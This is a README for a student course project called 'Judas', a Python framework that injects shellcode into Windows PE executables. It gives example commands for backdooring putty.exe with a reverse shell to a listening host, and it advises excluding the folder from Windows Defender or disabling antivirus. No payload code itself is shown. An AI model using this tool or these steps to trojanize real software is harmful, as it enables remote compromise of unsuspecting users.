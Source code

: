 # Judas

## Background

This is an attack project for COMP 6970: Computer Security at the Fringes.
It's purpose and intent is purely for educational purposes.

The goal was to build a framework that could inject malicious code into PE files on the fly. 
An additional step was to hook an open source router firmware so that when an executable is being downloaded to a client's computer the router would automatically inject the malicious code and hand off the new file to the client. 

Unfortunately, we were unable to have the router firmware modification working by the due date.

## Setup

First ensure your box is completely up to date.
The instructions that follow assume you are using a Debian based Linux distribution.
The only system that is known not to work with this framework is macOS as for some reason it does not ship with memory map.

```bash
sudo apt update && sudo apt upgrade -y
```

After updating and upgrading the system install the dependencies needed by Judas.
I would recommend installing keystone by building the source. I had issues using Python's Pip.

```bash
pushd
NB_CPU="$(grep -c processor /proc/cpuinfo)"
sudo apt-get install python3-pip git cmake gcc g++ pkg-config libglib2.0-dev libssl-dev -y
cd /tmp
git clone https://github.com/keystone-engine/keystone.git
cd keystone
mkdir build
cd build
sed -i "s/make -j8/make -j${NB_CPU}/g" ../make-share.sh
../make-share.sh
sudo make install
sudo ldconfig
cd ../bindings/python
sudo make install3 
popd
```

```bash
pip3 install -r requirements.txt
```

## Execution

To run the tool we recommend running `backdoor.py` as it is treated as the driver for Judas.
Our tool utilizes Python's argparse module to help with command line arguments. 
In its current state it can take in a multitiude of different arguments.

## Example

To inject the message box shellcode into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t msg`

To inject the reverse shell shellcode with listening host of 10.0.0.2 and listening port of 80 into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t rev -lH 10.0.0.2 -lP 80`

To run Judas on putty.exe in wizard mode run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -w`

## Option Summary

### Path

The only required parameter is path which is expected to come immediately after the call to backdoor.
This is the path to the file that you wish to inject.

### Listening Port (-lP | --lport)

Port the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening port.

### Listening Host (-lH | --lhost)

Host's IP the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening host.

### Section Size (-sS | --section_size)

Size of the section being injected into the binary.
Defaults to 1024.

### Page Size (-pS | --page_size)

Size of the page being injected into the binary.
Defaults to 1024.

### Section Permissions (-sP | --section_permissions)

Permissions of the section being injected into the binary.
Defaults to 0xE0000000 (READ | EXECUTE).

### Section Name (-sN | --section_name)

Name of the section being injected into the binary.
Defaults to .pwn.

### Payload Type (-t | --type)

Type of the payload being injected.
Current options:
    msg : message box shell script
    rev : reverse shell script

### Wizard Mode (-w | --wizard)

Activates wizard which prompts users for inputs depending on type of payload chosen.

### Verbose Mode (-v | --verbose)

Activates verbose mode

## Windows

If running this script on Windows ensure you exclude this folder from Windows Defender scans.
If you do not Windows Defender will automatically delete the file produced by the script.
Go to `Windows Defender Security Center`, then `Virus & threat protection settings`, and at the bottom there is `Exclusions`.
Add a new folder and put in the path for this repo.
The same goes for when you exploit the Windows system.
In this projects current state it cannot bypass antivirus, so to see it actually work ensure AV is disabled or marked to exclude the directory Judas is executed from.

## Resources

* https://captmeelo.com/exploitdev/osceprep/2018/07/16/backdoor101-part1.html
* https://resources.infosecinstitute.com/back-dooring-pe-files-windows/
* https://r0ttenbeef.github.io/backdooring-pe-file/
* https://axcheron.github.io/code-injection-with-python/
* https://docs.microsoft.com/en-us/windows/win32/debug/pe-format?redirectedfrom=MSDN
* https://resources.infosecinstitute.com/2-malware-researchers-handbook-demystifying-pe-file/

## Dependencies

* Assembler
  * https://github.com/keystone-engine/keystone
* PE Parser
  * https://github.com/erocarrera/pefile
* Network Interface
  * https://github.com/al45tair/netifaces